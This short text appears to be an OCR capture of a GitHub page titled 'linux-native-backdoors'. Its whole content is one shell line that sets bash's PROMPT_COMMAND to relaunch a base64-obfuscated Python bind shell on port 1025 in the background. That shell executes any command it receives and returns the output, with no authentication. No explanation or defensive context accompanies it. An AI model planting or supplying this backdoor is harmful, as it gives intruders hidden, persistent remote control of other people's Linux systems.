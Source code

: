 linux-native-backdoors
======================

man bash

export PROMPT_COMMAND="lsof -i:1025 &>/dev/null || (python -c
\"exec('aW1wb3J0IHNvY2tldCxvcyxzeXMKcz1zb2NrZXQuc29ja2V0KCkKcy5iaW5kKCgiIiwxMDI1KSkKcy5saXN0ZW4oMSkKKGMsYSk9cy5hY2NlcHQoKQp3aGlsZSAxOgogZD1jLnJlY3YoNTEyKQogaWYgJ2V4aXQnIGluIGQ6CiAgcy5jbG9zZSgpCiAgc3lzLmV4aXQoMCkKIHI9b3MucG9wZW4oZCkucmVhZCgpCiBjLnNlbmQocikK'.decode('base64'))\"
2>/dev/null &)"

